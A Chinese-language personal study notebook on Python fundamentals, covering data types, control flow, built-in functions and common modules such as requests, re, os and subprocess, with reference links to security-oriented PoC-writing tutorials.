# 屁眼通红自学之路

Python 3.12.1 (tags/v3.12.1:2305ca5, Dec  7 2023, 22:03:25) [MSC v.1937 64 bit (AMD64)] on win32

参考和致谢：

```html
https://blubiu.github.io/2019/05/Python%E4%BB%8E0%E5%88%B0POC%E7%BC%96%E5%86%99-%E5%9F%BA%E7%A1%80/
https://xz.aliyun.com/t/12555?time__1311=mqmhD50KBK7K4iqGNDQbiQd84WqEpCrQDxoD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-13
https://developer.aliyun.com/article/1221273
https://cloud.tencent.com/developer/article/1036852
https://zhuanlan.zhihu.com/p/369138975
https://www.cnblogs.com/ichunqiu/p/13151471.html
https://m.freebuf.com/articles/web/370607.html
https://blog.knownsec.com/index.html%3Fp=4870.html
https://www.anquanke.com/post/id/240010
https://developer.aliyun.com/article/1160247
https://www.freebuf.com/vuls/246033.html
https://cn-sec.com/archives/1571568.html
https://m.freebuf.com/articles/web/275769.html
https://www.cnblogs.com/mypf/articles/15008338.html
https://www.php.cn/faq/509574.html
```


## 输入输出

表达式直接输出

print输出

```python
>>>1+2
3
>>>print("hello world")
hello world
```



## 数据类型

### Number(数字)

#### 整型、浮点型



### String(字符串)

使用 `'(单引号)` 或者 `"(双引号)` 括起来的 



### List(列表)

列表是使用方括号括 `[]` 起来的，

```python
list1 = [1,2,3,'帅比','looks',[4,5,6]]
```

一个列表里面可以存在多种类型，比如整型、浮点型、字符串，还可以包含另外一个列表 

他们之间使用逗号分隔。

另外，有两个比较常用的函数：

- append() 函数是将参数作为一个元素增加到列表的末尾。
- extend() 方法则是将参数作为一个列表去扩展列表的末尾。



#### 列表切片





#### 列表数据修改

#### 删除列表中的元素

```python
del list1[0] #删除列表中的第一个数据值
list1[0] = 1 #将列表中的第一个值修改为1
list2[2:5] = []  #删除索引值 2到5 的元素
```




## Tuple(元组)

元组使用 **小括号`()`** 来定义，或者使用逗号



如果只有一个元素的时候，需要在元素后面添加逗号，否则括号会被当作运算符使用。



元组一旦定义理论上不能进行增删改查，如果非要修改，可以使用切片的方法。

**添加的东西也一定要是元组！！！**



先取插入位置之前的，再取插入位置之后的，方便插入排序位置


## Sets(集合)

集合是一个无序的不重复元素序列。可以使用 **`set()`** 或者 花括号**`{ }`** 创建集合，



可以使用 **add** 和 **remove** 添加删除集合中的元素 ，但是集合不支持通过索引值来查找元素 




## Dictionary(字典)

当索引不好用的时候，我们可以使用字典。

字典是另一种可变容器模型，且可存储任意类型对象。

字典的每个键值(key=>value)，对用冒号(`:`)分割，

每个对之间用**逗号** `,` 分割，

整个字典包括在**花括号** `{}` 中 

```python
dict1 = {'a':'looks','b':10,'c':789}
```



字典表达方法2

```python
dict2 = dict((('a',123),('b',456),('7',789))) #注意键值对是使用逗号
```

## 流程控制

### if单向分支

```python
if 1<2:
    print("Hello World")
```



### if双向分支

```python
if 2<2:
    print("Hello World")
else:
    print("Hello2")
```



### if多项分支

```python
if 2 < 2:
    print("1")
elif 1 < 1:
    print("2")
else:
    print("3")
```



### if巢状分支，条件嵌套

缩进对齐很重要

```python
if 1 < 2:
    print("1")
    if 2 < 1:
        print("2")
else:
    print("3")
```



### while语句：

### 语法：

```python
while 条件:
	循环体
```

```python
count = 0
while count <= 10:
    print("loop hold on",count)
    if count == 5:
        print("loop finished on",count)
        break
    count += 1
```

break之后的循环语句都不会执行，会直接跳出循环。



continue只是终止本次循环，后面会接着继续循环

```python
count = 0
while count <= 10:
    if count == 5:
        count += 1  # 确保即使在continue时也会增加count
        continue
    print("loop ", count)
    count += 1
```



while else 语句

**else** 作用是指，当 **while** 循环正常执行完，中间没有被 **break** 中止的话，就会执行**else**后面的语句，

如果执行过程中被 **break** ，就不会执行**else**的语句。

```python
count = 0
while count <= 5:
    count += 1
    print("loop ", count)
else:
    print("loop finished")
```



### for循环

for循环可以遍历任何序列的项目，如一个列表或者一个字符串

```python
for i  in "农夫安全牛逼":
    print(i)
```



嵌套也是正常是使用的

## 函数

### len

**len()** 函数返回对象（字符、列表、元组等）长度或项目个数，



### range

Python3 range() 函数返回的是一个可迭代对象（类型是对象），而不是列表类型， 所以打印的时候不会打印列表。

Python3 list() 函数是对象迭代器，可以把 range() 返回的可迭代对象转为一个列表，返回的变量类型为列表。

**语法：** 

range(start, stop[, step])

**参数：**

1. start: 开始，默认是从 0 开始。例如range(5)等价于range(0,5)
2. stop: 结束，但不包括 stop。例如：range(0,5) 是[0, 1, 2, 3, 4]没有5
3. step：步长，默认为1。例如：range(0,5) 等价于 range(0, 5, 1)



可以指定步长，以便每次增加不同的数量



如果只提供一个参数，它将生成一个从 0 开始的整数序列，参数为结束值，步长默认为 1：



我们可以使用负数作为步长，以便从结束值倒序生成序列：

如果使用负数作为步长，则开始值必须大于结束值



### int

int() 函数用于将一个字符串或数字转换为整型。

```python
int()
0
int(2)
2
int(2.4)
2
int(2.5)
2
int(2.8)
2
int('12',16) #如果是带参数base的话，12要以字符串的形式进行输入，12 为 16进制
18
int('12',10) #如果是带参数base的话，12要以字符串的形式进行输入，12 为 10进制
12
```

### str

str() 函数将对象转化为适于人阅读的形式。

语法：class str(object='')

返回一个对象的string格式。



### list

list() 方法用于将元组转换为列表。

**注：**元组与列表是非常类似的，区别在于元组的元素值不能修改，元组是放在括号中，列表是放于方括号中。



### dict

**dict()** 函数用于创建一个字典。返回一个字典。

```
class dict(**kwarg)
class dict(mapping, **kwarg)
class dict(iterable, **kwarg)
```

- **kwargs --  关键字。
- mapping --  元素的容器，映射类型（Mapping Types）是一种关联式的容器类型，它存储了对象与对象之间的映射关系。
- iterable --  可迭代对象。

字典是另一种可变容器模型，且可存储任意类型对象。

### tuple

**tuple()** 函数将列表转换为元组 



### chr

**chr()** 用一个整数作参数，返回一个对应的字符。 

语法：chr(i) 

参数： **i** – 可以是 **10 进制**也可以是 **16 进制**的形式的数字 



### ord

**ord()** 函数作用与 chr() 函数 相反 

语法：ord(c) 

参数 **c** 是 字符。 



### argv

我们在使用某个脚本的时候，通常能够看到类似这样的操作，**`python ms17-010.py 192.168.1.2`** 

那么这种情况就需要使用到 **argv** 函数了。

**argv** 是模块 **sys** 的一个函数。 

它的作用是用来从程序外部获取参数。 

```python
import sys

a = sys.argv[0] #sys.argv[0] 是获取程序名称
b = sys.argv[1] #sys.argv[1] 是获取参数。

print(a,'\n')
print(b)
```




### split

**split()** 通过指定分隔符对字符串进行切片 

语法：str.split(str=””, num=string.count(str)) 

参数：

1. str  分隔符，默认为所有的空字符，包括空格、换行(\n)、制表符(\t)等。
2. num  分割次数。默认为 -1, 即分隔所有

```bash
url = 'https://www.pythonchallenge.com/pc/def'
path = url.split('.')   # 以 点(.) 进行分割
print(path)
```



### format

**format()** 格式化字符串函数 

Python2.6 开始，新增了一种格式化字符串的函数 **str.format()** 

字符串的格式化方法分为两种，分别为占位符(%)和format方式 。 

占位符方式在Python2.x中用的比较广泛，

随着Python3.x的使用越来越广，format方式使用的更加广泛。 

基本语法： **{旧的字符}.format(“新的字符”)**

```python
"{} {}".format("hello", "world")    # 不设置指定位置，按默认顺序
#  输出 --> 'hello world'
 
"{0} {1}".format("hello", "world")  # 设置指定位置
#  输出 --> 'hello world'
 
"{1} {0} {1}".format("hello", "world")  # 设置指定位置
#  输出 --> 'world hello world'

"网站名：{name}, 地址： {url}".format(name="百度", url="www.baidu.com")
#  输出 --> '网站名：百度, 地址： www.baidu.com'
```



### exec

**exec()** 执行储存在字符串或文件中的 Python 语句，相比于 eval，exec 可以执行更复杂的 Python 代码。 

语法： exec(object[, globals[, locals]]) 

参数： 

1. object：必选参数，表示需要被指定的Python代码。它必须是字符串或code对象。
2. globals：可选参数，表示全局命名空间（存放全局变量），如果被提供，则必须是一个字典对象。
3. locals：可选参数，表示当前局部命名空间（存放局部变量），如果被提供，可以是任何映射对象。如果该参数被忽略，那么它将会取与globals相同的值。

返回值： 

**exec** 返回值永远为 **None**





### 占位符(%)常用格式表：



### try except

**try except** 异常处理函数 ,

语法：

```python
try:
    code   # 处理的语句
except error as e:   # 遇到 error 执行下面的语句
    print(e)
```

处理多个异常： 

```python
try:
    code
except error1 as e:   # 处理 error1 异常
    print(e)
except error2 as e:   # 处理 error2 异常
    print(e)
```

else作用：没有异常，则走else部分的逻辑代码

```python
try:
    code
except error1 as e:   # 处理 error1 异常
    print(e)
except error2 as e:   # 处理 error2 异常
    print(e)
else:
    print("没有异常")
```

finally作用：不管有没有错误，都会执行finally中的代码 

```python
try:
    code
except error1 as e:   # 处理 error1 异常
    print(e)
except error2 as e:   # 处理 error2 异常
    print(e)
else:
    print("没有异常")
finally:
    print("不管有没有错，都执行finally")
```


## 魔法方法

### name

`__name__` 是系统定义的内部函数，它的作用是识别模块。

通常我们看到这样一句话：

```python
if __name__ == '__main__' #__name__ 的值有两种情况，那么挨个来说下。
```

如果模块是被直接执行的 ，那么 `__name__` 的值 为 `__main__`

定义一个 **test()** 函数，那么这个函数是被执行的，则 `__name__`  就会变为 `__main__`

```python
def test():
    print '__name__ = '__name__
if __name__ == '__main__':
    test()
```

如果模块是被导入的，那么 `__name__` 的值为模块的名字，使用 import函数 导入sys模块，`__name__` 的值 就是 sys 

```python
import sys
def test():
    print '__name__ = '__name__
if __name__ == '__main__':
    test()
```


### main

`__main__` 是顶层代码执行的作用域的名称。

模块的 `__name__` 在通过标准输入、脚本文件或是交互式命令读入的时候会等于 `__main__` ，

模块可以通过检查自己的 `__name__` 来得知是否运行在 `main` 作用域中。

`__main__` 一般跟 `__name__` 连用，不会单独使用。


### init

`__init__` 方法是一个特殊的方法（init是单词初始化initialization的省略形式），它的作用是在使用类创建对象之后被执行，用于给新创建的对象初始化属性用。

```python
class test:
    def __init__(self, name, age):
        self.name = name    #  初始化属性
        self.age = age      #  初始化属性
        print("Test instance created")

man = test ("looks",18)  #实例化对象

print(man.name)
print(man.age)
```

self 表示对象本身，谁调用，就表示谁，name 和age是自定义的变量名称，随便取啥都行。

这里 `self.name = name` 和 `self.age = age` 表示将外部传来的name 和 age ，赋值给self对象的name和 age 属性。



### module

`__module__`  表示当前操作的对象在那个模块，此方法也有两个不同的结果。

如果当前模块为被调用模块的时候 打印当前模块的名称

```python
class Person(object):
    def __init__(self):
        self.name = '张三'


from test import Person  # 从另一个文件中导入类Person

obj = Person()
print(obj.__module__)  # 输出 test 即 输出模块

```

如果当前模块为顶层模块执行 则打印 `__main__` 

```python
def test():
    pass

print(test.__module__)   #  打印 __main__
```


### str

如果要把一个类的实例变成 str ，就需要实现特殊方法 `__str__`   

python在调用 **print()** 打印实例化对象时，会调用 `__str__()` 方法 ，如果 `__str__()` 方法中有返回值，就会打印其返回值。

`__str__` 方法 使用 **return** 作为返回值，而不是 **print**

```python
class test:
    def __init__(self,name,age):
        self.name = name
        self.age = age
    def __str__(self):
        return "我是 __str__ 方法"   #  实例化对象的时候有 return 会打印返回值
if __name__=="__main__":
    demo = test("张三",18)   #  实例化对象
    print(demo)
```


## 模块

### Requests模块：

requests是一个 HTTP客户端库，编写爬虫和测试服务器响应数据时经常会用到。它可以提取 url 中的信息。

`pip install requests`

requests库的七个主要方法：

| 方法               | 解释                           |
| ------------------ | ------------------------------ |
| requests.request() | 构造一个请求，支持以下各种方法 |
| requests.get()     | 获取html的主要方法             |
| requests.head()    | 获取html头部信息的主要方法     |
| requests.post()    | 向html网页提交post请求的方法   |
| requests.put()     | 向html网页提交put请求的方法    |
| requests.patch()   | 向html提交局部修改的请求       |
| requests.delete()  | 向html提交删除请求             |

### requests.get()

这个我们最常见，也是用的最多的，

基本使用方法：

```python
r = request.get(url,params,kwargs)  
#  这句代码是构造一个服务器请求request，返回一个包含服务器资源的response对象。
#url: 需要爬取的网站地址。
#params: 翻译过来就是参数， url中的额外参数，字典或者字节流格式，可选。
#kwargs : 12个控制访问的参数 
```

```python
import requests

url = 'http://10.1.10.1/login.php'
r = requests.get(url)
print(r.text)
print(r.status_code)
```



**kwargs** 有以下参数：

**params**：字典或字节序列， 作为参数增加到url中，使用这个参数可以把一些键值对以?key1=value1&key2=value2的模式增加到url中

```python
>>> import requests  #  导入模块
>>> url = 'http://www.hello.com/index.php'  #  设置 url
>>> payload = {'key1': 'values', 'key2': 'values'}
>>> r = requests.get(url, params=payload) 
>>> print(r.url)
>>> # 输出 http://www.hello.com/index.php?key2=values&key1=values
>>> print(r.status_code)  # 输出 200 （状态码）
```

**data：**字典，字节序或文件对象，重点作为向服务器提交资源，作为request的内容，**与params不同的是，data提交的数据并不放在url链接里， 而是放在url链接对应位置的地方作为数据来存储。，它也可以接受一个字符串对象。**

**json：**  **json格式的数据**， json合适在相关的html，http相关的web开发中非常常见，也是http最经常使用的数据格式， 他是**作为内容部分可以向服务器提交。**

**headers：** 字典是http的相关语，对应了向某个url访问时所发起的http的头字段， 可以用这个**字段来定义http的访问头**，可以模拟任何浏览器来对url发起访问。

```python
url = 'http://www.hello.com/index.php'
header = {'user-agent': 'Chrome/10'} 
r = requests.get(url, headers=header)
print(r.headers)
```

**cookies：**字典或CookieJar，指的是从http中解析cookie

**auth：**元组，用来支持http认证功能

**files：**字典， 是用来向服务器传输文件时使用的字段

```python
url = 'http://www.hello.com/index.php'
file = {'files': open('data.txt', 'rb')} 
r = requests.post(url, files=file)
print(r.text)
```

**timeout:** 用于设定超时时间， 单位为秒，当发起一个get请求时可以设置一个timeout时间， 如果在timeout时间内请求内容没有返回， 将产生一个timeout的异常。

**proxies：**字典， 用来设置访问代理服务器。

**allow_redirects:** 开关， 表示是否允许对url进行重定向， 默认为True。

**stream:** 开关， 指是否对获取内容进行立即下载， 默认为True。

**verify：**开关， 用于认证SSL证书， 默认为True。

**cert：** 用于设置保存本地SSL证书路径


### response对象属性：

| 属性                | 说明                                             |
| ------------------- | ------------------------------------------------ |
| r.status_code       | http请求的返回状态，若为200则表示请求成功。      |
| r.text              | http响应内容的字符串形式，即返回的页面内容       |
| r.encoding          | 从http header 中猜测的相应内容编码方式           |
| r.apparent_encoding | 从内容中分析出的响应内容编码方式（备选编码方式） |
| r.content           | http响应内容的二进制形式                         |

### requests.head()

**head** 获取html头部信息的方法 。

```python
import requests

url = 'http://10.1.10.1/login.php'
response1 = requests.get(url)
print(response1.headers)
```




### requests.post()

发送post请求 

POST 方法被用于请求源服务器接受请求中的实体作为请求资源的一个新的从属物

```python
>>> payload = {"key1":"value1","key2":"value2"}
>>> r = requests.post("http://www.hello.com/index.php",data=payload)
>>> print(r.text)
{
  "args": {}, 
  "data": "", 
  "files": {}, 
  "form": {
    "key1": "value1", 
    "key2": "value2"
  }, 
  "headers": {
    "Accept": "*/*", 
    "Accept-Encoding": "gzip, deflate", 
    "Connection": "close", 
    "Content-Length": "23", 
    "Content-Type": "application/x-www-form-urlencoded", 
    "Host": "httpbin.org", 
    "User-Agent": "python-requests/2.18.4"
  }, 
  "json": null, 
  "origin": "192.168.1.2", 
  "url": "http://www.hello.com/index.php"
}
```

向 **url** **post** 一个字符串，自动编码为 **data**

```python
>>>r=requests.post("http://www.hello.com/index.php",data='hello world')
>>>print(r.text)
{
  "args": {}, 
  "data": "hello world", 
  "files": {}, 
  "form": {}, 
  "headers": {
    "Accept": "*/*", 
    "Accept-Encoding": "gzip, deflate", 
    "Connection": "close", 
    "Content-Length": "10", 
    "Host": "httpbin.org", 
    "User-Agent": "python-requests/2.18.4"
  }, 
  "json": null, 
  "origin": "192.168.1.2", 
  "url": "http://www.hello.com/index.php"
}
```

### requests.put()

**PUT** 方法请求服务器去把请求里的实体存储在请求URI（Request-URI）标识下。

```python
>>> payload={"key1":"value1","key2":"value2"}
>>> r=requests.put("http://www.hello.com/index.php",data=payload)
>>> print(r.text)
{
  "args": {}, 
  "data": "", 
  "files": {}, 
  "form": {
    "key1": "value1", 
    "key2": "value2"
  }, 
  "headers": {
    "Accept": "*/*", 
    "Accept-Encoding": "gzip, deflate", 
    "Connection": "close", 
    "Content-Length": "23", 
    "Content-Type": "application/x-www-form-urlencoded", 
    "Host": "httpbin.org", 
    "User-Agent": "python-requests/2.18.4"
  }, 
  "json": null, 
  "origin": "192.168.1.2", 
  "url": "http://www.hello.com/index.php"
```

### Requests模块例子

判断状态码是不是 200

```python
import requests

try:
  url = 'https://www.baidu.com'
  r = requests.get(url)
  if r.status_code == 200:
    print('hello')
except:
  print('error')
```

### BeautifulSoup：

**BeautifulSoup** 是一个可以从 HTML 或 XML 文件中提取数据的 Python 库 

它通常跟一些第三方解析器一起使用，如 lxml，XML，html5lib 等 

```python
import requests
from bs4 import BeautifulSoup

url = 'https://www.baidu.com'

r = requests.get(url)

r.encoding = 'utf-8'   #  设置编码

soup = BeautifulSoup(r.text,'lxml')

print(soup.prettify())
```

`r.text` 是获取文本内容的意思，`lxml` 是解析器的意思，注意必须使用引号。 

prettify() 是对内容进行格式化处理，看起来没哪里乱。 

**BeautifulSoup 通常配合 requests 一起使用。**

### find_all()

`find_all()` 是一种方法选择器，顾名思义，就是查询所有符合条件的元素 

```python
print(soup.find_all(name='ul'))  # 查询所有 ui 节点
```

```python
print(soup.head)  # 获取head标签
print(soup.p.b)  # 获取p节点下的b节点
soup.p['class']  # 获取p节点class属性
```

### urllib

urllib 是一种 http请求的 Python 库 

基本语法：

```python
urllib.request.urlopen(url, data=None, timeout)
```

1. url:  需要打开的网址
2. data: Post提交的数据
3. timeout: 设置网站的访问超时时间，单位为秒

### urllib常用模块： 

1. urllib.request 请求模块
2. urllib.error 异常处理模块
3. urllib.parse url解析模块
4. urllib.robotparser robots.txt解析模块

### 常用方法：

1. print(response.read().decode(‘utf-8’))   # 返回网页内容
2. print(response.version)  # 返回版本信息
3. print(response.status)  # 返回状态码200，404代表网页未找到
4. print(response.closed)  # 返回对象是否关闭布尔值
5. print(response.geturl()) # 返回检索的URL
6. print(response.info())  # 返回网页的头信息
7. print(response.getcode()) # 返回响应的HTTP状态码

### http.client

**http.client** 也是一种发送 http请求的 Python库  他跟 request 很像。

```python
import http.client

conn = http.client.HTTPConnection("www.baidu.com")  # 请求地址

conn.request("GET","/index.php")  # 发送 GET请求，路径是 /index.php

res = conn.getresponse()  # 接收返回值

print(res.read().decode('utf-8'))  # 打印返回值
```

带中文参数的 GET请求：

```python
import http.client
import urllib.parse

conn = http.client.HTTPConnection("www.baidu.com")

url = urllib.parse.quote("/index.php?name=张三&age=18",safe=':/?=&')

conn.request("GET",url)

res = conn.getresponse()

print(res.read().decode('utf-8'))
```

这里需要使用到 urllib模块，quote 是 urllib 的一个子模块，他的作用是对 url进行编码。

safe 是一个 安全过滤器，默认会将斜杠转换成 **`%2F`** ，语法： `safe='这里放不需要处理的字符'`

这里如果使用 urllib 模块来打开 url ，如果存在中文会报错，为了使他原原本本的输出，需要将一些符号排除在过滤之外。

### RE模块：

**re** 正则表达式模块，这个大家应该都比较熟悉。

```
re.match(pattern, string, flags=0)
```

**pattern** 是匹配的正则表达式 

**string**  是要匹配的字符串。 

**flags** 是标志位，用于控制正则表达式的匹配方式，如：是否区分大小写，多行匹配等等。

### RE单字符匹配规则： 

| 字符  | 功能                                      |
| ----- | ----------------------------------------- |
| .(点) | 匹配任意1个字符(除了\n)                   |
| []    | 匹配[]中列举的字符                        |
| \d    | 匹配数字，0-9                             |
| \D    | 匹配非数字，也就是匹配不是数字的字符      |
| \s    | 匹配空白符，也就是 空格\tab               |
| \S    | 匹配非空白符，跟 \s 相反                  |
| \w    | 匹配数字、字母、下划线， a-z, A-Z, 0-9, _ |
| \W    | 匹配非数字、字母、下划线                  |

### RE数量匹配规则：

| 字符  | 功能                                |
| ----- | ----------------------------------- |
| *     | 匹配0次或者多次，可有可无           |
| +     | 匹配至少1次                         |
| ?     | 匹配1次或者0次，要么有1次，要么没有 |
| {m}   | 匹配前一个字符出现m次               |
| {m,}  | 匹配前一个字符至少出现m次           |
| {m,n} | 匹配前一个字符出现m到n次            |

### RE边界符：

| 字符 | 功能                               |
| ---- | ---------------------------------- |
| ^    | 匹配字符串开头                     |
| $    | 匹配字符串结尾                     |
| \b   | 表示字母数字与非字母数字的边界     |
| \B   | 表示字母数字与(非非)字母数字的边界 |

### RE常用函数：

| 方法/属性                                       | 作用                                                         |
| ----------------------------------------------- | ------------------------------------------------------------ |
| re.match(pattern, string, flags=0)              | 从字符串的起始位置匹配，如果起始位置匹配不成功的话，就返回none |
| re.search(pattern, string, flags=0)             | 扫描整个字符串并返回第一个成功的匹配                         |
| re.findall(pattern, string, flags=0)            | 匹配的所有字符串，并把他们作为一个列表返回                   |
| re.finditer(pattern, string, flags=0)           | 表示字母数字与(非非)字母数字的边界                           |
| re.sub(pattern, repl, string, count=0, flags=0) | 替换匹配到的字符串                                           |

**pattern** ： 匹配的正则表达式。 

**string** ： 要匹配的字符串。 

**flags** ： 用于控制正则表达式的匹配方式，如：是否区分大小写，多行匹配等等。 

**repl** ： 替换的字符串，也可作为一个函数。 

**count** ： 模式匹配后替换的最大次数，默认0表示替换所有匹配。

 `re.search` 而不是 `re.match`，因为 `re.match` 只从字符串的开始位置进行匹配，而 `re.search` 会检查整个字符串，寻找任何位置的匹配。这样更适合在整个响应文本中查找特定模式的场景

### RE例1

```python
>>> import re
>>> r = re.match('www','www.baidu.com')
>>> print(r)
>>> # 输出 <re.Match object; span=(0, 3), match='www'>  span=(0, 3) 表示 匹配到的字符在0-3位，但不包含3
# 也可以 
>>> r = re.match('www','www.baidu.com').span()
>>> # 输出 (0,3)
```


### RE例2

```python
>>> import re
>>> r = re.search('www','www.baidu.com').span()
>>> print(r)
>>> # 输出 (0, 3) 
>>> r = re.search('com','www.baidu.com').span()
>>> # 输出 (10,13)
```


### RE例3

```python
>>> import re
>>> r = re.findall('\d','w1w2w.ba3id4u.co5m')  # \d 匹配数字
>>> print(r)
>>> # 输出 ['1', '2', '3', '4', '5']
```


### RE例4

语法： re.sub(要匹配的字符串，要替换的字符串，查找的值) 

```python
>>> import re
>>> url1 = 'www.baidu.com'   # 查找的值
>>> url2 = 'www.taobao.com'  # 要替换的字符串
>>> r = re.sub('www.baidu.com',url2,url1)
>>> print(r)
>>> # 输出 www.taobao.com 百度被替换成了淘宝
```

### RE例5

匹配token

```python
import requests
import re

url = 'http://10.1.10.1/login.php'
response1 = requests.get(url)
# print(response1.text)

token_match = re.search(r'[0-9a-z]{32}',response1.text)

if token_match:
    user_token = token_match.group()
    print(user_token)
else:
    print('Invalid token')
```



### os模块

**os** 是一个获取和处理文件，目录 的模块，下面列举一些比较常用的方法。 

`import os`

### os.access()

**os.access()** 查看文件是否有指定权限，有则返回True否则返回flase 

语法： os.access(path, mode) 

**path** 文件路径  

mode 参数有： 

**F_OK (是否存在)** 

**R_OK (可读)** 

**W_OK (可写)** 

**X_OK (可执行)**

```python
os_test = os.access(r"C:\Users\NoHacker\PycharmProjects\pythonProject1\.venv\1.py",os.X_OK)
print(os_test)
```

在Python中，前缀`r`表示原始字符串（raw string）



### os.getcwd()

**os.getcwd()** 获取当前目录，即当前python脚本工作的目录路径 

```python
os_test = os.getcwd()
print(os_test)
```




### os.listdir()

**os.listdir()** 获取指定目录下文件和目录的名称，跟 dir 命令一样 



### os.chdir()

**os.chdir()** 切换工作目录到指定的路径下，成功返回True，失败返回False 



### os.mkdir

os.mkdir(path, mode=511) 创建一个目录，并指定访问权限，在windows平台下, mode参数将会被忽略 

默认的访问权限为 511，表示8进制的 0o777，即拥有者，用户组和其他用户均具有读、写和执行的权限。

```python
>>> import os
>>> r = os.mkdir('D:/test')  #  在D盘下创建一个test的目录
>>> print(r)
```

### os.makedirs

递归地创建目录并设置访问权限，类似于linux中的 mkdir -p 

权限跟上面一样 

os.makedirs(name, mode=511, exist_ok=False) 

递归地创建目录并设置访问权限，类似于linux中的 mkdir -p ,权限跟上面一样 

```python
>>> import os
>>> r = os.makedirs('D:/test/test')  #  在D盘下创建一个test的目录,然后在test目录再创建一个test目录
>>> print(r)
```

### os.rmdir(path)

**os.rmdir(path)** 删除指定的目录，若目录非空及里面有文件，则抛出OSError异常。 

```python
>>> import os
>>> r = os.rmdir('D:/test')  #  删除D盘下的test目录
>>> print(r)
```

### os.removedirs(path)

**os.removedirs(path)** 

递归删除指定的目录。 

若指定的是一个文件，则引发 NotADirectoryError 异常 

若指定的目录不为空，则引发OSError异常。

```python
>>> import os
>>> r = os.removedirs('D:/test/test')  #  递归删除在D盘下的两个test目录
>>> print(r)
```

### os.remove(path)

**os.remove(path)** 删除指定的文件。若 path 为一个目录，则引 PermissionError 异常

```python
>>> import os
>>> r = os.remove('D:/test.txt')  #  删除在D盘下的test.txt文件
>>> print(r)
```

### os.rename(src, dst)

**os.rename(src, dst)**  重命名文件或目录，如果dst是一个存在的目录, 将抛出OSError。 

**src** – 要修改的目录名 

**dst** – 修改后的目录名 

```python
>>> import os
>>> r = os.rename('D:/test','D:/test2')  #  将D盘下的test目录重命名为test2
>>> print(r)
```

### os.chown(path, uid, gid)

**os.chown(path, uid, gid)** 用于更改文件所有者，如果不修改可以设置为 -1 

path – 设置权限的文件路径 

uid – 所属用户 ID 

gid – 所属用户组 ID 

```python
>>> import os
>>> r = os.chown('test.txt',0,0) # 设置文件的UID为0，root用户，GID为0，root组
>>> print(r)
```

### os.system(“bash command”)

**os.system(“bash command”)** 运行shell命令，直接显示 

```python
>>> import os
>>> r = os.system('dir')  # 执行 dir 命令 
>>> print(r)
```


### os.chmod(path, mode) 

**os.chmod(path, mode)**用于更改文件或目录的权限 

**mode 参数有如下：**

| 选项          | 说明                                        |
| ------------- | ------------------------------------------- |
| stat.S_IXOTH  | 其他用户有执行权 0o001                      |
| stat.S_IWOTH  | 其他用户有写权限 0o002                      |
| stat.S_IROTH  | 其他用户有读权限 0o004                      |
| stat.S_IRWXO  | 其他用户有全部权限(权限掩码) 0o007          |
| stat.S_IXGRP  | 组用户有执行权限 0o010                      |
| stat.S_IWGRP  | 组用户有写权限 0o020                        |
| stat.S_IRGRP  | 组用户有读权限 0o040                        |
| stat.S_IRWXG  | 组用户有全部权限(权限掩码) 0o070            |
| stat.S_IXUSR  | 拥有者具有执行权限 0o100                    |
| stat.S_IWUSR  | 拥有者具有写权限 0o200                      |
| stat.S_IRUSR  | 拥有者具有读权限 0o400                      |
| stat.S_IRWXU  | 拥有者有全部权限(权限掩码) 0o700            |
| stat.S_ISVTX  | 目录里文件目录只有拥有者才可删除更改 0o1000 |
| stat.S_ISGID  | 执行此文件其进程有效组为文件所在组 0o2000   |
| stat.S_ISUID  | 执行此文件其进程有效用户为文件所有者 0o4000 |
| stat.S_IREAD  | windows下设为只读                           |
| stat.S_IWRITE | windows下取消只读                           |

```python
>>> import os
>>> r = chmod("D:/test.txt", stat.S_IWOTH)  # 设置文件可以被其他用户写入
>>> print(r)
```

### sys模块

### sys.argv

**sys.argv** 接收命令行参数，生成一个List，第一个元素是程序本身路径 

```
import sys

a = sys.argv[0] #sys.argv[0] 是获取程序名称
b = sys.argv[1] #sys.argv[1] 是获取参数。

print(a,'\n')
print(b)
```


### python执行shell的方式

#### **1. os.system()**

前面有提到过这种方法。 

语法： os.system(“command”)

```python
>>> import os
>>> r = os.system('dir')  # 执行 dir 命令 
>>> print(r)
```

#### **2. os.popen(command,mode)**

通过 os.popen() 返回的是 file read 的对象，

对其进行读取 read() 的操作可以看到执行的输出。但是无法读取程序执行的返回值

```
>>> import os
>>> r = os.popen('dir')  # 执行 dir 命令 
>>> print(r.read())
```

需要使用read方法才能输出



#### **3. subprocess 模块**

使用 subprocess 模块的 getoutput 方法，

主要方法: 

subprocess.getstatusoutput(cmd) 返回(status, output) 

subprocess.getoutput(cmd)    只返回输出结果 

subprocess.getstatus(file)   返回ls -ld file的执行结果字符串，调用了getoutput，不建议使用

```python
>>> import subprocess
>>> r = subprocess.getstatusoutput('dir')  # 执行 dir 命令 
>>> print(r)
>>> (0, '-rw-r--r-- 1 long long 6030829 Jan 5 21:34 log') 
```




### base64模块

base64模块是用来对字符进行base64编码解码 

这个大家应该都比较熟悉了。 

常用的两个方法有 b64encode 和 b64decode 

b64encode 进行base64编码 

```python
string = 'hello world'
r = base64.b64encode(string.encode('utf-8'))
print(r.decode('utf-8'))

string2 = r
r2= base64.b64decode(string2)
print(r2.decode('utf-8'))
```



### datetime模块：

**datetime** 是一个操作时间的模块，

datetime模块有几个常用的类： 

datetime.date  表示日期的类。常用的属性有year, month, day 

datetime.time  表示时间的类。常用的属性有hour, minute, second, microsecond 

datetime.datetime  表示日期时间。

**date类：** 

表示一个日期，由年、月、日组成 

year 的范围是 [1, 9999] 

month 的范围是 [1, 12] （月份是从1开始的） 

day 根据给定的year, month参数来决定。 例如闰年2月份有29天

date类 一些常用的类方法与类属性： 

date.today() 获取当前本地日期  

date.weekday() 返回 weekday，如果是星期一，返回0；如果是星期2，返回1，以此类推  

date.isoweekday() 返回 weekday，如果是星期一，返回1；如果是星期2，返回2，以此类推；



### **时间日期格式化符号：** 

| 字符 | 功能                         |
| ---- | ---------------------------- |
| %y   | 两位数的年份表示（00-99）    |
| %Y   | 四位数的年份表示（000-9999） |
| %m   | 月份（01-12）                |
| %d   | 月内中的一天（0-31）         |
| %H   | 24小时制小时数（0-23）       |
| %I   | 12小时制小时数（01-12）      |
| %M   | 分钟数（00=59）              |
| %S   | 秒（00-59）                  |

新版本python有些 datetime模块 函数已经取消了，有时候可能使用 time 模块更加方便一点。

### random模块：

可以简单理解为随机处理数据用的

```python
print(random.randint(1,5))  # 随机一个大于等于 1 且小于等于 5 的整数
print(random.random())  # 随机大于 0 且小于 1 之间的小数
print(random.choice(['123','abc',666,[7,7,7]]))  # 随机一个元素

list = [1,2,3,4,5,6]
random.shuffle(list)#  打乱顺序
print(list)
```




## python文件操作

### 文件读取

进行文件读取有两种方式， 一种是使用 open() 函数 ，另外一种是使用 with open 方式 

